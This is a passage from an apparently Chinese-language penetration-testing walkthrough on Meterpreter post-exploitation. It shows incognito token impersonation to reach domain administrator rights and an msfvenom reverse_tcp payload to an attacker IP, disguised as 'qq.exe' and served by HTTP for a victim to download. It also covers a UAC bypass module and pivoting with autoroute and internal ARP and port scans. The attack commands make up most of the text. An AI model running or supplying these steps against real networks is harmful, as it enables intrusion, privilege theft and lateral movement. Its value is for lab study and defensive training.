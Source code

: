 load incognito

list_tokens ?

当域控访问被控制的主机共享时多了一个域控的 token .

![0QykPs.png](https://s1.ax1x.com/2020/10/02/0QykPs.png)

利用 `impersonate_token            Impersonate specified token`

![0Qy8R1.png](https://s1.ax1x.com/2020/10/02/0Qy8R1.png)

执行  `impersonate_token SECURITY\\Administrator` ,成功成为域管理权限。

![0QyBid.png](https://s1.ax1x.com/2020/10/02/0QyBid.png)




![0Qy4ij.png](https://s1.ax1x.com/2020/10/02/0Qy4ij.png)


## 内网环境搭建

![0Q63Tg.png](https://s1.ax1x.com/2020/10/02/0Q63Tg.png)

## 内网渗透之Pivoting跳板攻击

本来攻击者是内网ip，在防火墙上把 监听端口映射出去，然后监听。就可以反弹shell.

为了方便演示，此处 kali 与 对方内网中一台公网服务器直接通信。


通过对方web漏洞或者其他漏洞进行攻击得到shell.

`msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=20.1.1.11 lport=4444 -b "\x00" -f exe > qq.exe`

`python -m SimpleHTTPServer 8000`

就以引诱对方下载我们的木马文件反弹shell把。

得到一个普通用户权限，

![0Qc25Q.png](https://s1.ax1x.com/2020/10/02/0Qc25Q.png)

直接 `getsystem` 提权失败，尝试uac绕过。

利用 `exploit/windows/local/bypassuac_injection`

#### Pivoting

* 利用已经被入侵的主机作为跳板来攻击网络中其它系统
* 访问由于路由问题而不能直接访问的内网系统。

**自动路由**

* run autoroute -s 10.1.1.0/24
* run post/multi/manage/autoroute
* 利用win7攻击内网服务器
* 扫描内网网络
	* run post/windows/gather/arp_scanner rhosts=10.1.1.0/24
	* use auxiliary/scanner/portscan/tcp
	